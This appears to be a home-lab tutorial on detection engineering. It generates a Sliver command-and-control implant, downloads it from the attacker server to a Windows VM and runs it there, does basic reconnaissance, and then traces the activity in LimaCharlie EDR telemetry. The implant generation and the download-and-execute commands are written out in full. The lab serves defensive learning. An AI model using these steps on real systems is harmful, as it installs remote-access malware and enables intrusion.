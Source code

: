 # Generate the C2 payload
### Ubuntu Server
1. SSH into the Ubuntu server and drop into root shell:
   `sudo su`
2. Change directory to the Sliver directory created earlier:
   `cd /opt/sliver`
3. Launch the Sliver server
   `sliver-server`
   
   ![](https://i.imgur.com/w7MFCCE.png)
4. Generate the C2 session payload, within the Sliver shell.
   `generate --http [Ubuntu_VM_IP] --save /opt/sliver`
   
   ![](https://i.imgur.com/D9MIHge.png)
5. Confirm the new implant configuration:
   `implants`
   
   ![](https://i.imgur.com/ZquXU2X.png)
6. Exit Sliver by using `exit` command, and drop the C2 payload to the Windows VM by creating a temporary web server with Python.
   `cd /opt/sliver`
   `python3 -m http.server 80`
### Windows VM
1. Launch Administrative Powershell, and run the following command
   ```
   IWR -Uri http://[Ubuntu_VM_IP]/[payload_name].exe -OutFile C:\Users\User\Downloads\[payload_name].exe
	```
	*the payload name is the unique name generated by Sliver, in my case it was COMBATIVE_SHEET*
2. Create a snapshot before executing the malware.
   
   ![](https://i.imgur.com/HpjnKZa.png)
# Start the Command & Control Session
### Ubuntu Server
1. Terminate the Python web server.
   `Ctrl+C`
2. Relaunch sliver
   `sliver-server`
3. Start the Sliver HTTP listener
   `http`
   
   ![](https://i.imgur.com/STD1HdB.png)
### Windows VM
1. Execute the C2 payload download via the Administrative Powershell
   `C:\Users\User\Downloads\<c2_payload>.exe`
### Ubuntu Server
1. Back on the Sliver Session, there should be a session check show up as shown
   
   ![](https://i.imgur.com/HteQP4S.png)
2. Verify the session in Sliver and note down the Session ID
   `sessions`
   
   ![](https://i.imgur.com/ikiBFgQ.png)
   `Session ID: fd1addb0`
3. Interact with the C2 session by using the following command:
   `use [session_id]`
   
   ![](https://i.imgur.com/TMNkVF9.png)
4. Now, there is direct session to interact with the Windows VM. Now let's run some basic recon commands:
	1. Get basic info about the session:
	   `info`
	   
	   ![](https://i.imgur.com/qN3ByK7.png)
	2. Find out what user and the privileges of the user had
	   `whoami`
	   
	   ![](https://i.imgur.com/KTxqUd1.png)
	   `getprivs`
	   
	   ![](https://i.imgur.com/fRQHpw6.png)
	3. Identify the working directory of the implant
	   `pwd`
	   
	   ![](https://i.imgur.com/JKzDCP9.png)
	4. Examine the network connections on the remote system
	   `netstat
	   
	   ![](https://i.imgur.com/MI34qEv.png)
	   - The highlighted connection is the implant's
	   - rphcp.exe is LimaCharlie's
	5. Identify the running processes
	   `ps -T`
	   
	   ![](https://i.imgur.com/xTSwZ0J.png)![](https://i.imgur.com/yGNOTr6.png)
	   Sliver will highlight the defensive product in Red and its own process in Green. It will also show the Security Product used by the system.

# Observe the EDR Telemetry
### LimaCharlie
1. Go to LimaCharlie web UI, and click on the active Windows sensor.
   
   ![](https://i.imgur.com/BTO0QFS.png)
2. On the right panel, click on "Processes" to examine the processes running on the Windows VM. As shown in the image below, there is one processes that is **Not Signed** *(without the Green Check Mark)*. Therefore, it would be unusual process.
   
   ![](https://i.imgur.com/qeDxf9R.png)
3. The Network Connections can also be viewed by clicking on the three-dots at the side of the process. It will show the IP address, ports, protocols and state of the connection.
   
   ![](https://i.imgur.com/9palrz7.png)
4. By clicking into the "Network" tab on the right panel, we can find search for the Destination IP by using `Ctrl + F` with the destination IP as the keyword and found several processes linked to it.
   
   ![](https://i.imgur.com/o9pjSRh.gif)
5. Next, go to the "File System" on the right panel, and navigate to the path where the implant is running from which can be determined from the "Processes" tab earlier. Then the file hash can be inspected and search on VirusTotal for any matching signature.
   
   ![](https://i.imgur.com/2fsGsfH.gif)
   However, there is no match found for the file hash. Because the payload is just generated on our own and it's not available in the VirusTotal database yet. This would be more suspicious if the file is suspected to be a malware, as VirusTotal have a huge database of malware sample, hence the sample file might be a custom-made malware.
6. Next, go to the "Timeline", and filter the timeline with known Indicator of Compromise (name of the file, IP address of the C2).
   
   ![](https://i.imgur.com/aLp26gT.png)
   As shown above, once the malware is launched it immediately started communicating with the C2 server.
